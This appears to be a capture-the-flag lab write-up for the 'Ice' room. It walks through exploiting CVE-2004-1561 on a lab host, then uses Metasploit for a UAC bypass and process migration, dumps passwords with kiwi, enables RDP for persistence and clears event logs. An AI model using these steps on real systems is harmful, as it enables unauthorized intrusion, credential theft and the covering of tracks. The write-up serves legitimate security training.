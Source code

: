 # ICE 
## Reconnaissance
 * #### IP address : 10.10.113.228
---
## Scanning & Enumeration
started in RP Metaspoitable [here](/RP-Metasploit)

---
## Explotaiton
we are going to exploit [CVE-2004-1561](https://www.cvedetails.com/cve/CVE-2004-1561/) vulnerability 

* access granted

![access granted](img/access-granted.png)


* privilege escalation

we run this command to find option to escalate privilege
```
run post/multi/recon/local_exploit_suggester
```
We are going to use [exploit/windows/local/bypassuac_eventvwr](https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/) to escalate privilege

Now we own admin privilege

![admin](img/admin-privs.png)

## Maintainning Access
* Looting
<p  align="center">
<img src="img/looting.png">
</p>
migrate to spoolsv.exe process

```
meterpreter > migrate -N spoolsv.exe
[*] Migrating from 2392 to 1364...
[*] Migration completed successfully.
meterpreter > 
```
![Admin](img/admin.png)
---
* It's time to do collect password
```
load kiwi
```
![Creds all](img/creds_all.png)

* Post expoitation
user password [here](hashes)

* Windows MSRDP

Activate it first 
```
 run post/windows/manage/enable_rdp
```
Find acount [here](accounts)

![rdp image](img/rdp.png)

---
## Cleaning
* clear event log
```
meterpreter > clearev
```

---
